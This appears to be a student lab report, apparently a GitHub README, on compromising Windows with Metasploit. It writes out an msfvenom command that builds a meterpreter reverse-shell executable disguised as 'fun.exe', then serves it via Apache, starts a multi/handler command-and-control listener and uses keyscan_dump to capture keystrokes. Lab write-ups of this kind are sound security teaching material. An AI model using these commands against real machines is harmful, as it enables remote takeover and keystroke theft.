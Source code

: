 # Name: Gowtham N
# Reg no: 212222220013
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:

![image](https://github.com/user-attachments/assets/0aefccb0-15b1-4319-8950-3bde65b867b1)
Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/user-attachments/assets/afa93003-0550-437f-af4b-556a420fa1c8)
copy the fun.exe into the apache /var/www/html folder
Start apache server
sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/42a365d9-0ae1-4572-a186-cd48d34f751e)
Check the status of apache2
![image](https://github.com/user-attachments/assets/e6ef442a-351d-484e-9bd1-bae96cac72da)
invoke msfconsole:
![image](https://github.com/user-attachments/assets/4d9b2ddd-a4c0-4434-a7c6-6bb64158b392)
## OUTPUT
![image](https://github.com/user-attachments/assets/abc2e1af-fa76-43b4-beac-c9ed33051d47)
Starting a command and control Server use multi/handler set PAYLOAD
windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/user-attachments/assets/11c47cce-71d4-453a-b9f0-94409937d6c6)
## OUTPUT:
![image](https://github.com/user-attachments/assets/3eae708c-dad1-4cf0-8ad4-0c44ddcfdaed)
keyscan_dump shows the keystrokes captured so far
## OUTPUT:
![image](https://github.com/user-attachments/assets/e32e88d8-75da-41d7-8037-71805d9e0032)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
